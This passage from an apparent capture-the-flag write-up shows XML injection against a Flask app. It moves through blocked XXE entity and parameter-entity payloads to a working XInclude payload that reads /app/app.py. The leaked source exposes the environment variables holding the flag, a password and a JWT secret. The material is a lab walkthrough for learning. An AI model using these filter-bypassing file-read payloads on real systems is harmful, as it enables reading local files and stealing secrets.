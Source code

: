 
Lets try a simple XXE to read the file:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///app/app.py">
]>
<data><username>&file;</username></data>
``` 

If we try the payload we get the error: `Error: No entity references please`

```
{
  "data": "<?xml version=\"1.0\"?><!DOCTYPE data [<!ENTITY file SYSTEM \"file:///app/app.py\">]><data><username>&file;</username></data>"
}
```

If entities are not allowed we can try `parameter entities`, however they are not allowed either: `Error: No parameter file entities please`.

```
{
  "data": "<?xml version=\"1.0\"?><!DOCTYPE data [<!ENTITY % file SYSTEM \"file:///app/app.py\">]><data><username>%file;</username></data>"
}
```

Lets try Xinclude:

```

{
  "data": "<data><username><xi:include xmlns:xi=\"http://www.w3.org/2001/XInclude\" parse=\"text\" href=\"file:///app/app.py\"/></username></data>"
}

```

The response is as follows, decoded in HTML:

```python
Welcome import flask
from flask import Flask, render_template, request, url_for
import jwt
from lxml import etree
import os
import re
import tempfile

app = Flask(__name__)

FLAG = os.environ.get('FLAG') or 'wcft{fake-flag}'
FLAGUSER_PASSWORD = os.environ.get('FLAGUSER_PASSWORD') or 'fake-password'

JWT_SECRET = os.environ.get('JWT_SECRET') or 'secret'

JWT_ALG = 'HS256'
JWT_COOKIE = 'appdata'


@app.route('/')
def root():
    return render_template("index.html")


@app.route('/secret-welcome-935734', methods=['GET'])
def secret_welcome():
```